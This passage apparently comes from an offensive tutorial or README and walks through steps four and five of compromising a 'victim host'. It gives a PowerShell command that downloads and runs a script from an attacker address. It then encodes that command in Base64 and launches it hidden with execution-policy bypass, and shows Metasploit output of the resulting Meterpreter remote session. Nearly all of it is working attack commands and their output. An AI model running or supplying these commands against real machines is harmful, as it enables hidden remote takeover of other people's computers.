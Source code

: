 ## 4. Run initial loader script on victim host

### Powershell command on victim host
```
iex(new-object net.webclient).downloadString('http://192.168.252.5/s1.ps1')

```

### Optionally convert to Base64 LE on attacking host
```
$ echo -n "iex(new-object net.webclient).downloadString('http://192.168.252.5/s1.ps1')" > /tmp/payl.txt
$ iconv -f ASCII -t UTF-16LE /tmp/payl.txt | base64 | tr -d "\n"
aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyADUAMgAuADUALwBzADEALgBwAHMAMQAnACkA
```

### Final Powershell command to execute on victim host
```
PS > powershell.exe -ep bypass -nol -noni -w hidden -nop -e aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyADUAMgAuADUALwBzADEALgBwAHMAMQAnACkA
```

## 5. Receive response on attacking host
```
msf6 exploit(multi/handler) > [*] Sending stage (200262 bytes) to 192.168.252.8
[*] Meterpreter session 1 opened (192.168.252.5:6666 -> 192.168.252.8:2095) at 2021-02-05 12:06:19 +0100

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-8DCK0D8\vbox
```


